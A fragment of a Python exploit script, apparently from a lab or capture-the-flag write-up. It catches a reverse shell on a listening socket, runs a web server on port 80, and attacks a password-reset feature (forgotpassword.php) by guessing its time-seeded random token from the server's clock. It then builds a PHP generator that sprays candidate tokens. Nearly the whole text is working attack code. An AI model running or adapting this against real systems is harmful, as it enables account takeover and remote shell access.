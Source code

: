```py
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

# Send token, to get it valid
def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
```